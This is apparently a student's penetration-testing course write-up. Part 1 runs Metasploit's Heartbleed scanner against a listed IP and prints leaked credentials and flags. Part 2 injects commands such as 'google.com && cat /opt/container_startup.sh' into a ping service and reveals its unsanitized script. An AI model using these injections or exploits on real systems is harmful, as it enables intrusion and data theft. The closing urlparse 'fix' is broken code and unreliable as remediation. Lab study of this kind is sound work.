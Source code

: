 # Penetration-Testing

## Part 1

For this part, I opened the metasploit console, and began to search for CVE-2014-0160, which led me to the heartbleed exploit which I selected to use. I then used an nmap scan (https://pentest-tools.com/network-vulnerability-scanning/tcp-port-scanner-online-nmap) to scan for all the open ports that were available on briong.com. After a short scan I discovered that ports 22, 80, and 443 were open, the nmap scan also helped me discover the IP address of the briong website: ```165.227.204.80```. I set the IP address of Mark's server to be the host machine, and kept the port at 443. I enabled verbose output, and then ran the exploit on the target machine. 

```
search CVE-2014-0160
use auxilary/scanner/ssl/openssl_heartbleed
show options
set RHOSTS 165.227.204.80
set VERBOSE true
exploit
```

This gave me a large amount of output, but from all this data a few keywords popped out at me, the username, password, flag, and easter egg. The easter egg was something not recognizable, but one thing that led me to believe that it was encrpyted was the ```'='``` character at the end of the long string of letters, I knew that this character is used as padding for 64bit encryption. 


```
Username: mnthomp22
Password: pass1234
Flag: CMSC389R-{h3art_bl33d}
Easter Egg: WAIT THIS ISN'T ENCRYPTION?? CMSC389R-{base64_is_still_used_for_crypt0}
```

## Part 2

The first thing I did for this part was to search exploit_db (https://www.exploit-db.com/) for possible command line exploits we could use with the metasploit console, I did not find anything substantial that I could use and I decided to connect to Mark's server with ```nc briong.com 45``` to run a few commands and implement some black box testing. After inputing a few commands with little success, I remembered that I could use ```&&``` to run two commands one after the other I started exploring the server running commands such as ```google.com && ls -a``` to look inside Mark's server. I located the home directory and ran ```google.com && ls home``` which revealed the ```flag.txt``` file which contained the flag:

```Flag: CMSC389R-{p1ng_c0mmand_inj3ction}```

In order to figure out how Mark could fix this vulnerability I searched for his script on his machine, while looking through the ```opt``` directory I found a script called ```container_startup.sh```. After looking it up by inputing ```google.com && cat /opt/container_startup.sh```. This resulted in the following script:

```
#!/bin/bash

unset domain

echo -n "Ping an IP or domain: "
read domain
>&2 echo "[$(date)] IP/DOMAIN: $domain"
echo "Pinging: $domain"
python -c "import commands; s,c = commands.getstatusoutput('ping -c 5 $domain'); print c"
```

It seems that Mark's problem is that he does not sanitize his input, anything that a user enters goes unchecked and is run, Mark could easily check his input by using regular expressions, something like this could work: 

```
/((([A-Za-z]{3,9}:(?:\/\/)?)(?:[-;:&=\+\$,\w]+@)?[A-Za-z0-9.-]+|(?:www.|[-;:&=\+\$,\w]+@)[A-Za-z0-9.-]+)((?:\/[\+~%\/.\w-_]*)?\??(?:[-\+=&;%@.\w_]*)#?(?:[\w]*))?)/
```

Aternatively, Mark could use input sanitization to remove any additional commands that someone may try to run while using his service. Something simple from python's ```urllib.parse``` library can work:

```
from urllib.parse import urlparse
ping -c 5 urlparse($domain)
```
